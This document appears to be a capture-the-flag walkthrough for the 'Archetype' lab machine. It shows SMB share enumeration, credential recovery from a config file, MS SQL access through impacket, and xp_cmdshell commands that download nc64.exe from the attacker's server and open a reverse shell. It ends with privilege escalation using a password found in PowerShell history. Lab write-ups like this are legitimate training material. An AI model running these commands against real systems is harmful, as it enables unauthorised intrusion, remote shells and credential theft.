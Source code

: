 # Archetype

## Initial Reconnaissance
- **Port Scan:** 
```sudo nmap -sC -sV 10.129.238.100 # port scan on the ip```
- Discovered database server port as `1433`.

- **SMB Enumeration:**``
```smbclient -N -L 10.129.238.100 # list share over SMB```
- Identified a non-administrative share named `backups`.

- **Accessing the Share:**
```smbc lient -N \\\\10.129.238.100\\backups #going in the onlynon-admin share```
- Found file `prod.dtsConfig` and downloaded it using `get prod.dtsConfig`.
- Revealed credentials: `M3g4c0rp123` for user `ARCHETYPE\sql_svc`.

## Exploitation

- **MS SQL Server Connection:**
- Installed `mssqlclient.py` using:
  ```
  git clone https://github.com/SecureAuthCorp/impacket.git
  cd impacket
  pip3 install -r requirements.txt
  sudo python3 setup.py install
  ```
- Connected to SQL Server with credentials:
  ```
  python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.240.43 -windows-auth
  ```
  - Enabled `xp_cmdshell` for Windows command execution.

- **Reverse Shell Setup:**
- Started HTTP server and Netcat listener:
  ```
  sudo python3 -m http.server 80
  sudo nc -lvnp 443
  ```
- Uploaded `nc64.exe` to the target:
  ```
  xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{my_ip_adress}/nc64.exe -outfile nc64.exe"
  ```
- Executed `nc64.exe` for reverse shell:
  ```
  xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {my_ip_adress} 443"
  ```
  - Acquired user flag at `C:\Users\sql_svc\Desktop\user.txt`.

## Privilege Escalation

- **WinPEAS Analysis:**
- Downloaded WinPEAS: [WinPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe).
- Executed WinPEAS:
  ```
  .\winPEASx64.exe
  ```
  - Identified a vulnerable file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
  - Discovered administrator password: `MEGACORP_4dm1n!!`.

- **Escalating Privileges:**
- Connected as administrator using Impacket:
  ```
  python3 psexec.py administrator@10.129.238.100
  ```
  - Accessed administrator's desktop and retrieved the flag at `root.txt`.



